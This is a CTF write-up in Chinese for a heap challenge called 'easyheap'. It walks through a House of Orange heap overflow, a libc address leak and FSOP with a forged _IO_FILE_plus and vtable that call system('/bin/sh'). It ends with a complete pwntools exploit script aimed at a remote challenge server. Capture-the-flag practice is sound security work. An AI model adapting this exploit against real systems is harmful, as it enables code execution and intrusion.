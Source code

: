 观察代码 可以发现没有 可以free堆块的函数 ， 于是考虑可以使用houseOforange可以利用堆溢出修改下一chunk的size,从而是堆块分配值unsortbin，然后利用uaf漏洞进行泄露

完成泄露后可以使用FSOP，通过伪造的 vtable 和_IO_FILE_plus,从而通过报错来劫持程序流

1.首先通过gift函数接收地址。在通过溢出修改size，从而使得topchunk的size为0xf81 。 这里需要自行调试使得该chunk对齐

2.再次malloc一个大堆块，使得topchunk进入unsortbin,再次切割该堆块，通过show函数泄露地址。

3.伪造vtable 和_IO_FILE_plus

    fake_file = b'/bin/sh\x00'+p64(0x61)
    fake_file += p64(0)+p64(io_list_all-0x10)
    fake_file += p64(0) + p64(1)
    fake_file = fake_file.ljust(0xc0,b'\x00')
    fake_file += p64(0) * 3
    fake_file += p64(heap+0x1198) #vtable ptr
    fake_file += p64(0) * 2
    fake_file += p64(system)
    payload += fake_file

进入报错函数后将会进入system并以/bin/sh为参数，这注意#vtable ptr需要自行调试使其指向自身。

4.再次执行malloc即可getshell
```
	#!/usr/bin/env python3
	#-*- coding:utf-8 -*-
	from pwn import *
	import os
	r   =  lambda x : io.recv(x)
	ra  =  lambda   : io.recvall()
	rl  =  lambda   : io.recvline(keepends = True)
	ru  =  lambda x : io.recvuntil(x, drop = True)
	s   =  lambda x : io.send(x)
	sl  =  lambda x : io.sendline(x)
	sa  =  lambda x, y : io.sendafter(x, y)
	sla =  lambda x, y : io.sendlineafter(x, y)
	ia  =  lambda : io.interactive()
	c   =  lambda : io.close()
	li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
	context.log_level='debug'
	#elf = ELF('./EZheap')
	elf = ELF('./easyheap')
	libc = ELF("./libc.so.6")
	#io = elf.process()
	io = remote("101.35.18.209",20101)
	#io = remote("47.108.195.119",20141)


​	
	def ad(sz,na):
	    sla('away\n', '1')
	    sla('size of it', str(sz))
	    sla('Name?', na)
	
	def md(sz, na):
	    sla('away\n', '2')
	    sla('size of it', str(sz))
	    sla('name', na)
	
	def dp():
	    sla('away\n', '3')


​	
​	
	def finish():
	    ia()
	    c()
	
	def exploit():
	    li('exploit...')
	#--------------------------------
	#    io.recvuntil("名称:")
	#    io.sendline("")
	#    io.recvuntil("名字:")
	#    io.sendline("")
	#--------------------------------
	
	    heap = io.recvuntil(b'\n',drop=True).ljust(8, b'\x00')
	    heap = int(heap,16)
	    print("heap",hex(heap))
	
	    ad(0x20,"aaaa")
	    ad(0xbd0+0x420,"aaaa")
	    ad(0x20,"bbbb")
	    md(0x40,b"A"*0x20 + p64(0) +p64(0xf81))
	    #gdb.attach(io)
	    ad(0x1000,"AAAA")
	    ad(0x40,"BBBBBBBB")
	    dp() 
	    
	    io.recvuntil("BBBBBBBB")
	    area = u64(io.recvuntil(b'\x7f').ljust(8, b'\x00')) - 1514
	    malloc = area  - 0x10
	    libc_base = malloc - libc.sym['__malloc_hook']
	    io_list_all = libc_base + libc.symbols['_IO_list_all']
	    system = libc_base + libc.symbols['system']
	    print("area             ",hex(area))
	    print("malloc           ",hex(malloc))
	    print("io_list_all      ",hex(io_list_all))
	    print("system           ",hex(system))
	    print("heap",hex(heap))
	    #gdb.attach(io)
	    payload = b'a' * 0x40
	    fake_file = b'/bin/sh\x00'+p64(0x61)#to small bin
	    fake_file += p64(0)+p64(io_list_all-0x10)
	    fake_file += p64(0) + p64(1)#_IO_write_base < _IO_write_ptr
	    fake_file = fake_file.ljust(0xc0,b'\x00')
	    fake_file += p64(0) * 3
	    fake_file += p64(heap+0x1198) #vtable ptr
	    fake_file += p64(0) * 2
	    fake_file += p64(system)
	    payload += fake_file
	
	    md(len(payload),payload)
	    #gdb.attach(io)
	    io.recvuntil("away\n")
	    io.sendline('1')
	
	#    gdb.attach(io)  
	   
	#-------------------------------start
	
	if __name__ == '__main__':
	    exploit()
	    finish()
	```